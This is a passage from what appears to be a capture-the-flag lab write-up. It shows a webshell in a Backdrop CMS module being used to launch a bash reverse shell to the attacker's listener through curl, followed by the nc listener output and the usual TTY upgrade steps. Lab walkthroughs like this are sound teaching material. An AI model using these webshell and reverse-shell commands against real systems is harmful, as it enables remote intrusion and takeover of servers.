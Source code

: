 #### RCE

I can find the shell at `/modules/[name of module]/shell.php`. In my case, the name will be `reference`. It works:

![image-20221129142315439](https://0xdfimages.gitlab.io/img/image-20221129142315439.png)

### Shell

I’ll get a shell by passing a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) to the webshell:

```

oxdf@hacky$ curl -kG  https://localhost:4433/modules/reference/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'

```

At `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.167 33644
bash: cannot set terminal process group (281): Inappropriate ioctl for device
bash: no job control in this shell
www-data@90c7f522b842:/var/www/html/backdrop/modules/reference$

```

I’ll [upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q) the shell:

```

www-data@90c7f522b842:/var/www/html/backdrop/modules/reference$ script /dev/null -c bash 
<ackdrop/modules/reference$ script /dev/null -c bash             
Script started, output log file is '/dev/null'.
www-data@90c7f522b842:/var/www/html/backdrop/modules/reference$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@90c7f522b842:/var/www/html/backdrop/modules/reference$

```

## Shell as root in Backdrop Container

